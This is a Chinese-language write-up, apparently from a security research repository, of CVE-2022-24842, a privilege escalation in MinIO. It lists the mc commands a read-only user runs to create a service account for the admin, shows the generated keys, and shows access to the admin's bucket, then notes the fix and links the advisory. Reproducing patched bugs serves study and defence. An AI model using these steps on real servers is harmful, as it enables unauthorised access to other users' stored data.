







# CVE-2022-24842 minio privilege escalation

## 漏洞信息
- 漏洞类型：权限提升
- 漏洞版本：RELEASE.2022-04-12T06-55-35Z to RELEASE.2022-04-12T06-55-35Z(exclude)
- 漏洞简介：普通用户可以为包括管理员在内的其他用户创建子账号，通过子账号获取权限

## repo介绍
minio是一个提供存储桶功能的服务器，目前在github上已有33k个star

## 漏洞分析
这里配置了`RELEASE.2022-04-09T15-09-52Z`版本的minio服务，使用下面的[mc](https://docs.min.io/docs/minio-client-quickstart-guide.html)指令进行复现。首先使用管理员账户创建一个名为`foo`的普通用户代表攻击者，权限设置为`readonly`
```yaml
mc admin user add localadmin foo foobar123 #创建用户
mc admin policy set localadmin readonly user=foo #设置为只读
```
一个名为`foo`的普通用户被创建了

然后使用这个用户创建一个`host`
```yaml
mc config host add localfoo  http://localhost:9000  foo foobar123 #创建host
mc config host ls #列出所有的host
```
显示成功添加

然后使用这个`host`为管理员添加一个子用户
```yaml
mc admin user svcacct add localfoo minio 
```
显示出随机生成的用户名和密码

同时管理界面可以看到管理员子用户的记录

用这个账号创建一个`host`
```yaml
mc config host add localevil http://127.0.0.1:9000 QZ4RUZHYWC548EKQ678Z bRHLiBlnpY+Pc5BRqYEWRsHMklByop+fSOl4w15M
```
显示创建成功

使用这个`host`访问admin私有的存储桶

显示访问成功
```yaml
$ mc ls  localevil 
[2022-05-06 11:56:15 CST]     0B test/
$ mc ls  localadmin
[2022-05-06 11:56:15 CST]     0B test/
```
## 修复方式
在[cmd/admin-handlers-users.go](https://github.com/minio/minio/blob/master/cmd/admin-handlers.go)增加了逻辑校验

## 参考链接
- https://github.com/minio/minio/security/advisories/GHSA-2j69-jjmg-534q